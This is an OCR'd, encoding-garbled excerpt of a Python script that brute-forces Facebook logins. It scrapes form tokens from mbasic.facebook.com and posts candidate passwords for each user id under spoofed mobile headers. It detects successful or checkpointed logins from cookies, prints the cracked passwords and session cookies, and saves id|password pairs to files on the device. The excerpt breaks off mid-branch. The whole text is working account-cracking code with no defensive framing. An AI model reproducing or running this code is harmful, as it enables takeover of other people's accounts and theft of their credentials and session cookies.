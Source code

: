  Â Â Â Â globalÂ agents 
 Â Â Â Â try: 
 Â Â Â Â Â Â Â Â forÂ psÂ inÂ pwx: 
 Â Â Â Â Â Â Â Â Â Â Â Â biÂ =Â random.choice([A]) 
 Â Â Â Â Â Â Â Â Â Â Â Â sessionÂ =Â requests.Session() 
 Â Â Â Â Â Â Â Â Â Â Â Â sys.stdout.write(f'\r\33[1;37m[BALIIXSABA]Â [%s]\33[1;97mÂ [OK:%s~CP:%s]'%(loop,len(oks),len(cps))),Â  
 Â Â Â Â Â Â Â Â Â Â Â Â sys.stdout.flush() 
 Â Â Â Â Â Â Â Â Â Â Â Â proÂ =Â random.choice(ugen) 
 Â Â Â Â Â Â Â Â Â Â Â Â free_fbÂ =Â session.get('https://mbasic.facebook.com').text 
 Â Â Â Â Â Â Â Â Â Â Â Â log_dataÂ =Â { 
 Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â "lsd":re.search('name="lsd"Â value="(.*?)"',Â str(free_fb)).group(1), 
 Â Â Â Â Â Â Â Â Â Â Â Â "jazoest":re.search('name="jazoest"Â value="(.*?)"',Â str(free_fb)).group(1), 
 Â Â Â Â Â Â Â Â Â Â Â Â "m_ts":re.search('name="m_ts"Â value="(.*?)"',Â str(free_fb)).group(1), 
 Â Â Â Â Â Â Â Â Â Â Â Â "li":re.search('name="li"Â value="(.*?)"',Â str(free_fb)).group(1), 
 Â Â Â Â Â Â Â Â Â Â Â Â "try_number":"0", 
 Â Â Â Â Â Â Â Â Â Â Â Â "unrecognized_tries":"0", 
 Â Â Â Â Â Â Â Â Â Â Â Â "email":uid, 
 Â Â Â Â Â Â Â Â Â Â Â Â "pass":ps, 
 Â Â Â Â Â Â Â Â Â Â Â Â "login":"LogÂ In"} 
 Â Â Â Â Â Â Â Â Â Â Â Â header_freefbÂ =Â {'authority':'mbasic.facebook.com', 
 Â Â Â Â Â Â Â Â Â Â Â Â 'method':Â 'POST', 
 Â Â Â Â Â Â Â Â Â Â Â Â 'scheme':Â 'https', 
 Â Â Â Â Â Â Â Â Â Â Â Â 'accept':Â 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9', 
 Â Â Â Â Â Â Â Â Â Â Â Â 'accept-encoding':'utf-8','accept-language':Â 'en-US,en;q=0.9', 
 Â Â Â Â Â Â Â Â Â Â Â Â 'cache-control':Â 'max-age=0', 
 Â Â Â Â Â Â Â Â Â Â Â Â 'sec-ch-ua':Â '"Â NotÂ A;Brand";v="99",Â "Chromium";v="101"', 
 Â Â Â Â Â Â Â Â Â Â Â Â 'sec-ch-ua-mobile':Â '?1','sec-ch-ua-platform':Â '"Android"', 
 Â Â Â Â Â Â Â Â Â Â Â Â 'sec-fetch-dest':Â 'document', 
 Â Â Â Â Â Â Â Â Â Â Â Â 'sec-fetch-mode':Â 'navigate', 
 Â Â Â Â Â Â Â Â Â Â Â Â 'sec-fetch-site':Â 'none', 
 Â Â Â Â Â Â Â Â Â Â Â Â 'sec-fetch-user':Â '?1', 
 Â Â Â Â Â Â Â Â Â Â Â Â 'upgrade-insecure-requests':Â '1', 
 Â Â Â Â Â Â Â Â Â Â Â Â 'user-agent':pro} 
 Â Â Â Â Â Â Â Â Â Â Â Â loÂ =Â session.post('https://mbasic.facebook.com/login/device-based/regular/login/?refsrc=deprecated&amp;lwv=100&amp;refid=8',data=log_data,headers=header_freefb).text 
 Â Â Â Â Â Â Â Â Â Â Â Â log_cookies=session.cookies.get_dict().keys() 
 Â Â Â Â Â Â Â Â Â Â Â Â ifÂ 'c_user'Â inÂ log_cookies: 
 Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â coki=";".join([key+"="+valueÂ forÂ key,valueÂ inÂ session.cookies.get_dict().items()]) 
 Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â cidÂ =Â coki[7:22] 
 Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â print('\r\033[1;32m[âˆš]---------------------[UTPAL -OK]--------------------[âˆš]\nEMAILÂ :Â '+uid+'\nUIDÂ Â Â :Â '+cid+'Â âˆšÂ '+ps+Â '\nCOOKIEÂ Â Â :Â '+coki+'\n[âˆš]---------------------------------------------------[âˆš]') 
 Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â cek_apk(session,coki) 
 Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â open('/sdcard/UTPAL-OK.txt',Â 'a').write(cid+'Â |Â '+ps+'\n') 
 Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â oks.append(cid) 
 Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â break 
 Â Â Â Â Â Â Â Â Â Â Â Â elifÂ 'checkpoint'Â inÂ log_cookies: 
 Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â coki=";".join([key+"="+valueÂ forÂ key,valueÂ inÂ session.cookies.get_dict().items()]) 
 Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â cid=coki[24:39] 
 Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â RedÂ =Â '\033[1;31m' 
 Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â print(f'\r{Red}[Ã—]--------------------[UTPAL-Cp]---------------------[Ã—]\nEMAILÂ :Â '+uid+'\nUIDÂ Â Â :Â '+cid+'Â âˆšÂ '+ps+Â '\n[Ã—]---------------------------------------------------[Ã—]\033[1;97m') 
 Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â open('/sdcard/ALAMIN-CP.txt',Â 'a').write(cid+'Â |Â '+ps+'\n') 
 Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â cps.append(cid) 
 Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â Â break 
 Â Â Â Â Â Â Â Â Â Â Â Â elifÂ '/x/checkpoint'Â inÂ log_cookies: 
